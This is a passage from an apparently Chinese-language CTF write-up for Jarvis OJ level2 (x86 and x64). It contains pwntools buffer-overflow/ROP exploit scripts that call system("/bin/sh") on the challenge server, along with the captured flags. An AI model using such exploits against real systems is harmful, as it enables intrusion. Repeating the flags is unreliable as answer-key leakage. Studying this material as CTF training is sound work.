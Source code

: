   查找有没有/bin/sh

  ![18](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/18.png)

  可以构造system("/bin/sh") 

  填充buf，覆盖ebp，把返回地址改为system的地址，设置system的返回地址，传参给system

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com',9878)
  system =p32(0x8048320)
  binsh = p32(0x804a024)
  payload = 'a'*(0x88+4) + system + p32(0) + binsh
  r.sendline(payload)
  r.interactive()
  #CTF{1759d0cbd854c54ffa886cd9df3a3d52}
  ```

   ![19](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/19.png)

* #### [XMAN]level2(x64)

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9882)
   sys_addr = 0x4004C0
   pop_rdi_ret = 0x4006b3
   binsh = 0x600A90
   padding = 'a' * (0x80 + 0x8)
   payload = padding + p64(pop_rdi_ret) + p64(binsh) + p64(sys_addr)
   r.sendline(payload)
   r.interacctive()
   #CTF{081ecc7c8d658409eb43358dcc1cf446}
   ```

   

* ####  [XMAN]level3

   ![21](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/21.png)
